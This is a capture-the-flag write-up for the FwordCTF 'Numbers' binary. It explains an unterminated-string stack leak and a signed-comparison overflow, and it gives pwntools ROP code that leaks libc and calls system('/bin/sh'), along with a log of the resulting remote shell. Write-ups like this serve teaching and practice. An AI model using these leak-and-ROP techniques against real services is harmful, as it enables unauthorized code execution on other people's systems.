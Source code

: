 # Numbers

We are given a 64-bit executable:
```bash
$ file numbers
numbers: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f76f3042db00cbbb5da977e530fac85c27dff93, stripped
```

The following protections are enabled:
```bash
checksec numbers
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see that no stack canary is present. This usually means that there will be a buffer overflow we can exploit.

The program asks for a number `<=60`, asks us if we are sure and then repeats the whole process, as long as we do not answer `n` to the `try again ?` dialogue:
```bash
 ./numbers

do you have any number in mind ??
42
are yo sure ??
yes
yes

try again ?
sure

do you have any number in mind ??
are yo sure ??

try again ?
```

Time to analyze the programm. The function `are_you_sure` reads up to the number of bytes we specified and then prints this out using `printf("%s", buf);`. Here lies the first weakness. The string we provide is reflected without being `null` terminated. Thus, we can leak addresses on the stack by providing a string that is a multiple of 8 bytes long (including `\n`). 

```c
__int64 __fastcall are_you_sure(unsigned int num)
{
  char buf[64]; // [rsp-40h] [rbp-40h] BYREF

  puts("are yo sure ??");
  read(0, buf, num);
  printf("%s", buf);
  return 0LL;
}
```

We can leak the PIE base using this code:
```python
def leak_addr(number):
    io.sendlineafter("do you have any number in mind ??", str(number))
    payload = "A"*(number-1)
    io.sendlineafter("are yo sure ??", payload)
    io.recvline()
    io.recvline()
    leak = io.recvline()
    leak = u64(leak.strip().ljust(8, "\x00"))
    return leak
```

Now we need to find a way to control `RIP`. The `read_number` function verifies whether our number is less or equal than 60.
The program converts our inpupt to an unsigned integer, but performs a signed comparison. By providing a negative number, we can makes the signed check true,
but then return on a huge unsigned number as return value. This number will then be used in the `are_you_sure` function (see above) to read that many bytes into a 64-byte buffer. Because canaries are disabled, we can get RIP control easily. 

```c
__int64 __fastcall read_number(int *num)
{
  __int64 result; // rax
  char buf; // [rsp-8h] [rbp-8h] BYREF

  puts("\ndo you have any number in mind ??");
  read(0, &buf, 8uLL);
  *num = atoi(&buf);
  result = (unsigned int)*num;
  if ( (int)result <= 60 )
    return result;
  puts("you're a naughty boy..");
  exit(1);
  return result;
}
```

We now use this overflow to leak a libc adress (puts) and return to the start of main, so we can exploit the buffer overflow again:
```python
io.sendlineafter("try again ?", "")
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# Rop chain to leak libc
rop_exe =  ROP(exe)
rop_exe.puts(exe.got.puts)
rop_exe.call(piebase + 0x9c5) # main

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc6_2.28-0ubuntu1_amd64.so') # remote

# create payload
payload = "A"*64
payload += "B"*8
payload += str(rop_exe)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")
```

Analyzing the address of the leak and using `https://libc.blukat.me/` we identify that `libc6_2.28-0ubuntu1_amd64.so` is used on the remote server. Knowing this, we can  exploit the buffer overflow a second time, now calling `system('/bin/sh')`. We just have to make sure that `RSP` is 0x10 bytes aligned (which it was not if called directly). We could do this using a `pop` gadget or by calling puts with some value and hoping to have better alignment:

```python
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# create system('/bin/sh') rop chain
rop = ROP(libc)
rop.puts(libc.sym.puts) # stupid pivot because of 0x10 alignment for rsp
rop.system(next(libc.search("/bin/sh")))

#print rop.dump()

payload = "A"*64
payload += "B"*8
payload += str(rop)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")

io.interactive()
```

Running the script gives us a shell and we can read the flag:

```bash
$  numbers python xpl.py
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[+] piebase: 0x5560f04c7000
[*] Loaded 14 cached gadgets for 'numbers'
[*] '/home/vagrant/CTF/fword/numbers/libc6_2.28-0ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc address: 0x7f22d22fc000
[*] Loaded 196 cached gadgets for './libc6_2.28-0ubuntu1_amd64.so'
[*] Switching to interactive mode
o�1�"AUATI\x89�USH����ls
flag.txt
numbers
ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
$
```

The full exploit can be found in `xpl.py`.
